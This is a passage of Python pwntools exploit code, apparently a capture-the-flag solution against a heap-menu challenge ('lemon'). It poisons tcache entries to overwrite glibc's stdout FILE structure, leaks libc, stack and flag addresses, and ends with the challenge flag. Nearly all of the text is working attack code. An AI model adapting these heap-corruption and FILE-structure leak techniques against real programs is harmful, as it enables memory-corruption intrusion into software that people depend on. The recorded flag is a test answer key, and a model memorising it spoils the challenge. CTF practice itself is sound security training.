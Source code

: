 ```
    get(1,p64(0x00)+'\xed\x36',0x30,p64(0x00)) # 0x70 tcache chunk


    try:
        get(2,"stdout",0x68,p64(0x0)*6+'\x00'*3+p64(0xfbad1800)+p64(0x00)*3+'\x00')
        # gdb.attach(p)
    except:
        sys.stdout.flush()
        os.execv(sys.argv[0], sys.argv)

    p.recvuntil("\x7f\x00\x00")

    addr  =  u64(p.recvuntil("\x7f").ljust(8,'\x00'))
    log.success("_IO_2_1_stdout_+131 : "+str(hex(addr)))
    libc_base =  addr -131 - libc.sym['_IO_2_1_stdout_']
    log.success("libc_base : "+str(hex(libc_base)))
    # gdb.attach(p)

    malloc_hook = libc_base + libc.sym['__malloc_hook']
    free_hook = libc_base + libc.sym['__free_hook']
    log.success("malloc_hook : "+str(hex(malloc_hook)))
    log.success("free_hook : "+str(hex(free_hook)))
    p.recv()

    #throw(1)
    p.sendline("3")
    p.recvuntil('index of your lemon : ')
    p.sendline(str(1))

    environ = libc_base +  0x03dd058
    log.success("environ : "+str(hex(environ)))
    stdout = libc_base+libc.sym['_IO_2_1_stdout_']
    log.success("stdout : "+str(hex(stdout)))
    get(1,p64(0x00)+p64(stdout-0x33),0x30,p64(0x00)) # 0x70 tcache chunk

    get(2,"stdout",0x68,p64(0x0)*6+'\x00'*3+p64(0xfbad1800)+p64(0x00)*3+p64(environ)+p64(environ+0x10))

    stack = u64(p.recvuntil('\x7f')[1:7].ljust(8,'\x00'))
    log.success("stack_base : "+str(hex(stack)))
    flag_addr = stack&amp;0xffffffffff000 + flag
    log.success("flag_addr : "+str(hex(flag_addr )))

    #throw(1)
    p.sendline("3")
    p.recvuntil('index of your lemon : ')
    p.sendline(str(1))

    get(1,p64(0x00)+p64(stdout-0x33),0x30,p64(0x00)) # 0x70 tcache chunk

    get(2,"stdout",0x68,p64(0x0)*6+'\x00'*3+p64(0xfbad1800)+p64(0x00)*3+p64(flag_addr-0x100)+p64(flag_addr+0x100))

    # gdb.attach(p)
    p.interactive()

if __name__ == "__main__":
    pwn()

#flag`{`f578948e-8b48-494d-a11e-a97b7fbf14ee`}`
```
